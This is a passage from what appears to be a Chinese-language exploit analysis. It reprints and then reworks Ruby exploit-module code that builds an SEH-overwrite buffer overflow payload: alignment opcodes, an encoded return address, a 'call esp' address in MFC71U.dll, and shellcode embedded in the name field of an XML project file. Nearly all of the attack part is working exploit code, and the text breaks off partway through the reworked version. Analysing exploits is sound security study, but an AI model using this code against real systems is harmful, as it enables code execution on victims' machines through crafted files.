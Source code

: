 ```
  buffer << nop              #nop/inc edx
  buffer << "\x58"           #pop eax
  buffer << nop              #nop/inc edx
  buffer << "\x05\x09\x01"   #depending OS
  buffer << nop              #nop/inc edx
  buffer << "\x2d\x01\x01"   #add eax, 01000100, this will align eax to our buffer
  buffer << nop              #nop/inc edx
  buffer << "\x50"           #push eax
  buffer << nop              #nop/inc edx
 
  #crafting call esp at 0x7c32537b (MFC71U.dll) to make a jump using call esp
  buffer << "\x5C"           #pop esp
  buffer << nop              #nop/inc edx
  buffer << "\x58"           #pop eax
  buffer << nop              #nop/inc edx
  buffer << "\x05\x53\x7c"   #add eax 7c005300 part of call esp
  buffer << nop              #nop/inc edx
  buffer << "\x50"           #push eax
  buffer << junk * target['Padding2'] #OS specific
  buffer << "\x7b\x32"       #part of call esp
 
  #preparing for jump to shellcode, placing in eax.
  buffer << junk * 114       #junk
  buffer << "\x57"           #push edi
  buffer << nop              #nop/inc edx
  buffer << "\x58"           #pop eax
  buffer << nop              #nop/inc edx
  buffer << "\x05\x0A\x01"   #depending OS
  buffer << nop              #nop/inc edx
  buffer << "\x2d\x01\x01"   #sub eax,01000100
  buffer << nop              #nop/inc edx
  buffer << get_payload(payload.encoded)
  buffer << junk * (payload.space-buffer.length)      #fill the rest of buffer, must be added.
 
  lpp_data = <<-EOS
  <PROJECT version="1.0.00">
    <INFORMATION title="" author="" date="#{rand(1..12)}/#{rand(1..28)}/#{(1970..2020).to_a.sample}" SystemTime="#{rand(1..12)}/#{rand(1..28)}/#{(1970..2020).to_a.sample}">
      <TRACK name="#{buffer}" />
    </INFORMATION>
  </PROJECT>
```  
  
可以看到exploit将0x42作为nop，以ABC中随机一个字符作为填充。将以上代码优化后如下：  
```
第一区块
nop = "\x42"
junk = 'ABC'.split('').sample              #junk must specifically static (A, B, and C only)
buffer = ""
buffer << junk * target['Offset']
buffer << "\x61\x42"       # nseh
buffer << target['Ret']    # seh        
 
第二区块                              
#we need to encode the RET address, since RET (\xc3) is known as bad char.
#preparing address to land the decoded RET
buffer << "\x54"           #push esp       
buffer << "\x58"           #pop eax           
buffer << "\x05\x1B\x01"   #add eax 01001B00
buffer << "\x2d\x01\x01"   #sub eax 01001000 eax=0012F655
buffer << "\x50"           #push eax       
buffer << "\x5c"           #pop esp   
第三区块       
#preparing RET opcode (c300c300)
```